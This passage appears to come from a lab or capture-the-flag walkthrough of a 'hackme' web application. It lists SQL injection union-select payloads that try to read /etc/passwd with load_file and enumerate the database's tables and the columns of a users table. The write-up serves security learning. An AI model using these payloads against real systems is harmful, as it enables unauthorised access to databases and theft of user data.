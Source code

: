 When trying to read the **/etc/passwd** file, it was not possible.

`' and 1=2 union select load_file('/etc/passwd'),2,3 #`

![](/assets/images/hackme/screenshot-12.png)

Retrieving the tables from the database that the web application is using.

`' and 1=2 union select table_name,2,3 from information_schema.tables where table_schema=database() #`

![](/assets/images/hackme/screenshot-13.png)

Retrieving the columns from the table **users**.

`' and 1=2 union select column_name,2,3 from information_schema.columns where table_schema=database() and table_name='users' #`
